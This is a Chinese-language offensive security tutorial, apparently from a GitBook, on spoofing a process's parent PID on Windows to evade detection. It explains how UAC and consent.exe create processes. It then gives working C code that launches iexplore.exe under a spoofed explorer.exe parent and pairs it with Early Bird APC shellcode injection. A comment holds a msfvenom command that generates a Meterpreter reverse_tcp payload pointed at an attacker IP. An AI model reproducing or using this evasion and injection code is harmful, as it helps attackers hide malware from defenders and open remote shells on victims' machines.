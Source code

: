 ```yaml
---
description: fake-PPID
---
```


# 伪装PPID规避检测

## UAC创建进程的过程的疑惑

> 在触发UAC时，操作系统会创建一个名为consent.exe的进程，该进程通过白名单和用户选择来确定是否提升权限。 请求进程将要提升权限的进程的commandline和程序路径通过LPC\(Local Procedure Call\)接口传递给appinfo的RAiluanchAdminProcess函数，该函数首先会验证传入程序是否在白名单内同时判断是否弹出UAC窗口，这个UAC框会创建新的安全桌面，屏蔽之前的界面。同时这个UAC框进程是SYSTEM权限进程，其他普通进程也无法和其进行通信交互。用户确认之后，会调用CreateProcessAsUser函数以管理员权限启动请求的进程。

  
  
触发UAC创建进程的过程中,我们可以知道实际上高权限的进程是由consent.exe进程创建的，但实际上父进程并非指向consent.exe任就是UAC发起者的进程ID，那么我们是否可以自己指定父进程，增加判断成本从而使蓝队脑阔疼。

![](../.gitbook/assets/image%20%2818%29.png)

![&#x7236;&#x8FDB;&#x7A0B;&#x5E76;&#x975E;consent.exe](../.gitbook/assets/image%20%2844%29.png)

## CreateProcessAsUser函数

最终创建函数的是由consent.exe调用的CreateProcessAsUser函数，那我们猜测是否是consent.exe调用时指定了某些参数，导致PPID的更换。

* 在官方文档中给出了如下原型:

```text
BOOL CreateProcessAsUserA(
  HANDLE                hToken,
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

查询官方文档得知，如果在dwCreationFlags中EXTENDED\_STARTUPINFO\_PRESENT标准，那么lpStartupInfo传入的就会是一个名为STARTUPINFOEXA的结构体，而这个结构体能指定父进程的相关信息，最终传入的PPID会被写入到新进程\_eprocess结构体的InheritedFromUniqueProcessId位置。

```text
typedef struct _STARTUPINFOEXA {
  STARTUPINFOA                 StartupInfo;
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
} STARTUPINFOEXA, *LPSTARTUPINFOEXA;
```

根据查询的文档,CreateProcess函数同样也支持STARTUPINFOEXA结构体。

## 伪装PPID创建iexplore.exe

* 寻找explorer.exe的pid

```text
DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}
```

```text
int main() {

    STARTUPINFOEXA siex = {0};
    SIZE_T Size;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    HANDLE hFake = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &Size);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, Size);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &Size);

    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hFake, sizeof(HANDLE), NULL, NULL);
    

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, NULL);
    //PS:这里有个小坑，需要开启继承句柄
    return 0;
}
```

![](../.gitbook/assets/image%20%2831%29.png)

## 与进程注入技术EARLYBIRD搭配使用

```text
#include <stdio.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {

    //msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.109 EXITFUNC=thread -f
    unsigned char shellcode[] = ("XXX");


    STARTUPINFOEXA siex;
    PROCESS_INFORMATION piex;
    SIZE_T sizeT;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    HANDLE expHandle = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &sizeT);
    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &expHandle, sizeof(HANDLE), NULL, NULL);
    

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, &piex);

    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(piex.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(piex.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, piex.hThread, NULL);
    ResumeThread(piex.hThread);
    CloseHandle(piex.hThread);

    return 0;
}
```

![](../.gitbook/assets/image%20%2845%29.png)

![](../.gitbook/assets/image%20%2840%29.png)

![](../.gitbook/assets/image%20%2838%29.png)

* github:[https://github.com/idiotc4t/FakePPID](https://github.com/idiotc4t/FakePPID)

## LINKS

{% embed url="https://www.securitynewspaper.com/2018/04/17/new-early-bird-code-injection-technique/" %}

{% embed url="https://docs.microsoft.com/zh-cn/windows/win32/api" %}



